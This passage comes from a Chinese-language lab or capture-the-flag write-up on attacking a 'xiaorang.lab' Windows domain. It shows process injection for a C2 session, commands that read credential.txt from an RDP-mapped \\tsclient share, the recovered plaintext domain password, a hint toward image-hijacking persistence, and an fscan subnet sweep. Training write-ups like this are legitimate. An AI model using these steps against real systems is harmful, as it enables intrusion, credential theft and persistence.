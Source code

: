 所有用户的 LM 哈希都是 aad3b435b51404eeaad3b435b51404ee。这是一个特殊的哈希值，代表着“空”的 LM 哈希。这通常意味着：

系统禁用了 LM 哈希的存储（这是现代 Windows 系统的默认安全设置）。



查看在线用户可以发现还存在一个 John 用户

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1754281697142-31936f09-d7c5-44db-bd54-68593ba36794.png)

进行注入进程上线，然后进入 john 用户

> 试几个进程
>

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1754282000893-240e4c7b-1a50-4981-974e-8bbb0115e232.png)

可以发现注入成功，这里也是上线了 

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1754281985693-fb1d680b-1113-4475-b8b2-f5ea555f664f.png)

可以发现存在共享文件夹📂

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1754282153435-4d45ea6b-4418-4e82-8c5f-e05cd452aff7.png)

查看文件

```python
shell dir \\tsclient\c
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1754282475992-100bb6f6-8de9-4032-a758-25b3b7338ab4.png)

```python
shell type \\tsclient\c\credential.txt
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1754288503759-b8bbb3fc-b10a-4f79-a76e-6b6cb8696996.png)

得到一个密码

```python
xiaorang.lab\Aldrich:Ald@rLMWuy7Z!#

#提示
hijiack Image
就是映像劫持 
```

根据提示，先了解一下什么是映像劫持，怎么利用

[内网权限维持——映像劫持&CLR劫持-CSDN博客](https://blog.csdn.net/qq_55202378/article/details/140895624)

查看一下机子信息

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1754287797339-f5b1114f-1018-4110-8e85-8e1c5a197cbc.png)

```python
shell C:\Users\fscan.exe -h 172.22.8.0/24 > C:\Users\Public\1.txt
```
